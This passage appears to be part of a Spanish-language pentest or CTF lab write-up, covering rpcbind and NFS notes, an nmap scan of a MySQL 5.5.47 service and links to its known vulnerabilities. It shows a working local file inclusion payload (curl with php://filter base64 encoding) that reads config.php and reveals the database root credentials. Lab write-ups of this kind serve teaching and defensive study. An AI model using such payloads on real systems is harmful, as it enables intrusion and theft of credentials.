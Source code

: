 **Nota**: si en algún escaneo se detecta un servicio **nfs** probablemente se pueda enumerar, cargar y/o descargar archivos, para más información [Servicio nfs](https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting).

Más información acerca del puerto 111

- [book.hacktricks.xyz](https://book.hacktricks.xyz/network-services-pentesting/pentesting-rpcbind)
- [howtouselinux.com](https://www.howtouselinux.com/post/understanding-rpcbind-and-rpc)
- [qastack.mx](https://qastack.mx/unix/234154/exactly-what-does-rpcbind-do)

Como no se encontró infomación valiosa en este lugar, seguimos con el siguiente puerto **3306**:

```
PORT     STATE SERVICE REASON         VERSION
3306/tcp open  mysql   syn-ack ttl 64 MySQL 5.5.47-0+deb8u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.47-0+deb8u1
|   Thread ID: 39
|   Capabilities flags: 63487
|   Some Capabilities: Support41Auth, SupportsTransactions, Speaks41ProtocolNew, Speaks41ProtocolOld, FoundRows, InteractiveClient, SupportsLoadDataLocal, SupportsCompression, ConnectWithDatabase, IgnoreSigpipes, LongColumnFlag, IgnoreSpaceBeforeParenthesis, LongPassword, ODBCClient, DontAllowDatabaseTableColumn, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: _H'+BI(-IeD`99QlLv1-
|_  Auth Plugin Name: mysql_native_password
```

Lo ideal al realizar un escaneo de cualquier host es buscar las vulnerabilidades conocidas acerca del servicio que esté corriendo en el puerto localizado, en este caso buscamos las vulnerabilidades de MySQL 5.5.47 y encontramos bastantes vulnerabilidades conocidas:

- [security.snyk.io](https://security.snyk.io/package/linux/debian:8/mysql-5.5)
- [cvedetails.com](https://www.cvedetails.com/vulnerability-list.php?vendor_id=185&product_id=316&version_id=0&page=1&hasexp=0&opdos=0&opec=0&opov=0&opcsrf=0&opgpriv=0&opsqli=0&opxss=0&opdirt=0&opmemc=0&ophttprs=0&opbyp=0&opfileinc=0&opginf=0&cvssscoremin=0&cvssscoremax=0&year=0&cweid=0&order=1&trc=205&sha=db4d7f9ce3bd6b34321f8d0190d4c1dc2fe6e3a8)
- [securecoding.com](https://www.securecoding.com/blog/top-5-mysql-vulnerabilities-and-how-to-fix-them/) 

Aquí se utilizará la información que obtuvimos en la última consulta del puerto 80 a la página **config.php**:

```
┌──(al3j4ndr0㉿kali)-[~]
└─$ curl -s http://174.0.0.129?page=php://filter/convert.base64-encode/resource=config | grep -e '[^\ ]\{40,\}' | base64 -d
<?php
$server   = "localhost";
$username = "root";
$password = "H4u%QJ_H99";
$database = "Users";
?>base64: entrada inválida
```
